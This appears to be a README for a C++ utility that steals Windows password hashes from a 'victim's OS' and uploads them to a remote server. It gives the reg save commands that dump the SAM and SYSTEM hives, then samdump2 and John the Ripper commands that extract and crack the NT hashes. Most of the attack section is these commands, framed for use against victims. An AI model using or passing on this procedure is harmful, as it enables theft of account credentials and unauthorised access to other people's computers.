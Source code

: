 # Windows Passwords Extractor

A small utility that can be written in any language, had to implement it in C++ so i won't need any frameworks installed on the victim's OS (such as python / ruby / .net / ... )

**Dumps protected password files & upload to a remote server for brute force analysis.**

I've seen many utilities that install drivers and some require livecd mount etc.. 
It can be simple. the `reg` command has `save` param, that can be used to dump the hashed passwords information.


```
reg save hklm\sam sam.dump /y
reg save hklm\system system.dump /y
```
 - run as privileged user


### Analysis
use a linux machine, get the uploaded files from your server.

Decrypt `system.dump`, `sam.dump` using `samdump2`
```
samdump2 -o out system.dump sam.dump > hashed-passwords.txt
```

Brbute force `hashed-passwords.txt` using `john the ripper`
```
john --format=NT hashed-passwords.txt
```

